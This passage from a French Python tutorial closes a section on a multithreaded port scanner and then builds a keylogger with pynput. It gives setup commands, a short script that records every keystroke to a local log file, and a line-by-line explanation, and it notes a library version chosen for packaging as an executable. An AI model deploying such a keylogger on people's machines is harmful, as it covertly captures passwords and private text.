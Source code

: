 Ce scanner de ports multithreadé permet de scanner rapidement une large plage de ports en parallèle. Vous pouvez ajuster le nombre de threads en fonction des performances de votre machine et de la plage de ports que vous souhaitez scanner. 

Pour les prochaines étapes, nous pourrions ajouter des fonctionnalités avancées comme le scanning de ports avec des délais, l'enregistrement des résultats dans un fichier, ou l'ajout d'autres types de scans comme le scan UDP. N'hésitez pas à demander des précisions ou des ajouts spécifiques !


# Partie 4 : Keylogger en Python

Dans cette partie, nous allons créer un keylogger en Python. Un keylogger est un programme qui enregistre les frappes au clavier. Nous utiliserons la bibliothèque `pynput` pour intercepter les touches pressées et les enregistrer dans un fichier texte.

### Étapes

#### 4.1 Configuration de l'environnement

Assurez-vous que vous avez activé votre environnement virtuel et que toutes les bibliothèques nécessaires sont installées. Si ce n'est pas le cas, activez-le et installez `pynput` :

```bash
venv\Scripts\activate
pip install pynput==1.6.8
```

Nous utilisons la version 1.6.8 de `pynput` car elle est compatible avec `auto-py-to-exe`.

#### 4.2 Création du Keylogger

Créez un fichier `main.py` et ajoutez le code suivant :

```python
from pynput.keyboard import Listener

def on_press(key):
    with open('log.txt', 'a') as f:
        f.write(str(key) + '\n')

with Listener(on_press=on_press) as listener:
    listener.join()
```

#### 4.3 Explication du Code

- **Importation de la bibliothèque** : Nous importons `Listener` de `pynput.keyboard`.

- **Fonction `on_press`** : Cette fonction est appelée à chaque fois qu'une touche est pressée. Elle ouvre (ou crée) un fichier `log.txt` en mode append (`a`) et écrit la touche pressée dans ce fichier.

- **Création d'un `Listener`** : Nous créons un listener qui appelle la fonction `on_press` à chaque fois qu'une touche est pressée. Le `listener.join()` maintient le programme en cours d'exécution pour écouter les frappes de touches.

